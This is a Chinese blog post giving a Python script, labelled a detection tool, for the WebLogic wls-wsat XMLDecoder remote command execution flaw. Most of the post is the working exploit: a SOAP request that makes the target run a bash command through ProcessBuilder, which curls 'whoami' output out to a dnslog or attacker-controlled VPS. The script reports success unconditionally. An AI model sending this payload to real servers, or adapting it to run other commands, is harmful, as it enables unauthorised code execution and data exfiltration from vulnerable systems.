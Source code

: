 ```yaml
---
layout: post
title: weblogic XML远程命令执行命令漏洞检测脚本
date: 2018-01-11
categories: blog
tags: [weblogic,命令执行]
description: weblogic XML远程命令执行命令漏洞检测脚本
---
```

#weblogic XML远程命令执行命令漏洞检测脚本
#输入URL格式：http://www.example.com:7001/wls-wsat/CoordinatorPortType11
#运行：python weblogic_102711.py
代码中需要修改dnslog地址，可以改成自己的vps做为监听地址，然后查看日志即可
#coding=utf-8
import requests

banner='''
#***********************************************************************
#weblogic XML远程命令执行命令漏洞检测脚本
#输入URL格式：http://www.example.com:7001/wls-wsat/CoordinatorPortType11
#运行：python weblogic_102711.py
#author:computer
#请在代码中修改监听地址
#************************************************************************
'''
print banner
url=raw_input("请输入URL:\n#")
#url = "http://5.9.2.8:9001/wls-wsat/CoordinatorPortType11"
import base64


headers = {
    "X-Forwarded-For": "127.0.0.1",
    "User-Agent": "Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0",
    "Accept-Charset": "GBK,utf-8;q=0.7,*;q=0.3",
    "Content-Type": "text/xml"
}
#定义dnslog地址
data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>curl http://ip.port.dnslogurl.com/`whoami`</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>'''
 
def poc(url):
    try:
        poc_url=url
#        print poc_url
        req = requests.post(poc_url, data=data.format(ip=base64.b64encode(url)), headers=headers)		
        return True
    except:
        return False
poc(url)
print "\n检测成功，请查看dnslog记录！"